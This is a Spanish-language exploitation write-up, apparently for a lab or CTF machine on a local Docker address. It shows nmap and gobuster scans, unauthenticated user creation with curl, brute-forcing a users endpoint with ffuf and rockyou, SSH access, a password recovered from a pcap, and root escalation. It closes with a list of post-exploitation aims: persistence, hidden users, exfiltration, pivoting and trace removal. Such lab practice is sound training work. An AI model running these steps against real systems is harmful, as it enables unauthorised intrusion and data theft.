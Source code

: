 # Informe de Explotación

## 1. Comprobación de Conectividad

```bash
ping 172.17.0.2
```

---

## 2. Escaneo de Puertos Abiertos

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

### ✅ Puertos abiertos detectados:

- **22/tcp** → SSH  
- **5000/tcp** → UPnP

---

## 3. Detección de Versiones de Servicios

```bash
nmap -p22,80 -sCV 172.17.0.2
```

### Resultados:

- **22/tcp** → `OpenSSH 8.4p1 Debian 5+deb11u4 (protocol 2.0)`
- **5000/tcp** → (sin información precisa en este escaneo)

---

## 4. Enumeración de Directorios vía HTTP

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt
```

### 📂 Rutas encontradas:

- `/add` → `Status: 405` [Size: 178]  
- `/console` → `Status: 400` [Size: 192]

---

## 5. Prueba de Inserción de Usuario

Se intenta realizar un POST a `/add`:

```bash
curl -X POST -d "username=admin&password=123" http://172.17.0.2:5000/add
```

**Respuesta:**
```json
{
  "message": "User added"
}
```

✅ Usuario creado: `admin`  
🔑 Contraseña: `123`

---

## 6. Consulta de Usuarios Existentes

Se accede a la siguiente URL para obtener datos de usuarios:

```bash
http://172.17.0.2:5000/users?username=admin
```

**Respuesta:**

```json
[
  0,
  0,
  3,
  "admin",
  "123"
]
```

---

## 7. Enumeración de Contraseñas con Fuerza Bruta

```bash
ffuf -u http://172.17.0.2:5000/users?username=FUZZ -w /usr/share/wordlists/rockyou.txt -fs 39 -mc 200
```

Se detecta el usuario `pingu` con varias contraseñas:

- `your_password`
- `pinguinasio`

---

## 8. Acceso vía SSH

```bash
ssh pingu@172.17.0.2
```

✅ Acceso SSH exitoso con el usuario `pingu`.

---

## 9. Análisis de Archivos Interesantes

En el directorio base del usuario se encuentran los siguientes archivos:

```
app.py  network.pcap  pingu  users.db
```

Al analizar `network.pcap`, se detecta una contraseña en texto claro:

```
PASS: balulero
```

---

## 10. Escalada de Privilegios

Se utiliza la contraseña `balulero` para obtener acceso como **superusuario** (root).

✅ Acceso root obtenido con éxito.

---

## 11. Post-Explotación

🔒 **Acciones recomendadas:**

- ✅ Establecer persistencia  
- 👤 Crear un usuario oculto  
- 🔐 Añadir clave pública SSH  
- 📂 Exfiltrar información sensible  
- 🌐 Explorar red interna  
- 🔄 Realizar pivoting a otras máquinas  
- 🧹 Eliminar rastros  
- ⚠️ Destrucción del sistema (⚠️ no recomendada)
